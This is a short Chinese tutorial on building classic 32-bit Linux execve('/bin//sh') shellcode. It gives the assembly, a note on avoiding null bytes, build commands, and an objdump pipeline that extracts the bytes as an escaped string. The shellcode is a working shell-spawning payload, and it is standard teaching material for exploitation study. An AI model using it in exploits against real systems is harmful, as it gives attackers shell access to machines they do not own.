 # 编写汇编代码
```nasm
section .text
    global _start

_start:
    xor eax,eax
    push eax
    push 0x68732f6e
    push 0x69622f2f
    mov ebx,esp
    mov al,0xb
    xor ecx,ecx
    xor edx,edx
    int 80h
```
注意：由于转换为shellcode如果出现00，则有可能被识别为终止符，所以需要避免出现。故将mov eax,0xb修改为mov al,0xb

# 编译汇编代码
```shell
nasm -f elf asm/exec.asm && ld -m elf_i386 -s -o exec asm/exec.o
```

# 导出shellcode
```shell
objdump -d ./exec|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```